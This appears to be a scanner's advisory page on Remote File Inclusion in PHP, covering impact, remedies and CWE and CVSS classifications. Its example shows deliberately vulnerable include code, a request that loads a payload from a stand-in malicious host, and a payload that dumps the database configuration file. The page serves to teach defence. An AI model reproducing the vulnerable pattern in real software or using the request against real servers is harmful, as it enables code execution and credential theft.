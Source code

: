 # Remote File Inclusion (RFI)

<b>Severity</b>: <b><font color="red">High</font></b><br>
<b>Test name</b>: Remote File Inclusion (RFI)

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
</table>
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
</table>

This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server

<p>

<table id="simple-table">
    <tr>
        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>
    </tr>
</table>

1. Server side code:
```js
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of the <i>"malicious_code.php"</i>
```js
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 

<p>

<table id="simple-table">
    <tr>
        <th><strong>Location</strong></th>
    </tr>
</table>

* The issue can be found in the <b>source code</b> on the <b>server side</b>.
* The issue can be found in the <b>source code</b> on the <b>client side</b>.</li>

<p>

<table id="simple-table">
    <tr>
        <th><strong>Remedy suggestions</strong></th>
    </tr>
</table>

* The most effective solution is to avoid passing user-submitted input to any file system / framework API.
* If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.
* If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Classifications</strong></th>
    </tr>
</table>

* CWE-98
* CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L

<p>

<table id="simple-table">
    <tr>
        <th><strong>References</strong></th>
    </tr>
</table>

* <a href="http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion">http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion</a>
* <a href="https://en.wikipedia.org/wiki/File_inclusion_vulnerability">https://en.wikipedia.org/wiki/File_inclusion_vulnerability</a>